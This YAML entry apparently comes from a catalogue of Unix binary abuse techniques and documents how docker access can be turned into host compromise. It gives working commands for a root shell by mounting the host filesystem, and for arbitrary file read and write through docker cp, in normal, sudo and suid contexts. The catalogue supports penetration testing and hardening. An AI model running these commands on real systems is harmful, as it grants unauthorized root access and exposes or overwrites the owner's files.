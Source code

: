 ```yaml
---
description: |
  This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
functions:
  shell:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  file-write:
    - description: Write any file by copying it to an existing container and back to the target destination on the host.
      code: |
        CONTAINER_ID=existing-docker-container
        TF=$(mktemp)
        echo "DATA" > $TF
        docker cp $TF $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF file_to_write
  file-read:
    - description: Read any file by copying it to an existing container and back to a new location on the host.
      code: |
        CONTAINER_ID=existing-docker-container
        TF=$(mktemp)
        docker cp file_to_read $CONTAINER_ID:$TF
        docker cp $CONTAINER_ID:$TF $TF
        cat $TF
  sudo:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  suid:
    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
      code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
---
```

